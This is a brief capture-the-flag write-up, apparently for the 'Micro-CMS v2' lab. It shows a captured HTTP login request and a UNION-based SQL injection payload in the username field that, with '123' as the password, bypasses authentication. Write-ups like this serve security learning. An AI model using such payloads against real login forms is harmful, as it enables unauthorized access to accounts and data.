 ## Micro-CMS v2

URL : http://34.94.3.143/7cb9cccb9d/login

```

POST /ec02fa7d15/login HTTP/1.1
Host: 34.94.3.143
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://34.94.3.143
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://34.94.3.143/ec02fa7d15/login
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=lol&password=troll

```

- Here username was injectable, and password was not. 
- So what we did here is we injected below SQL query in username field.
`' UNION SELECT 123 AS password FROM admins WHERE '1'='1`
- and 123 as password.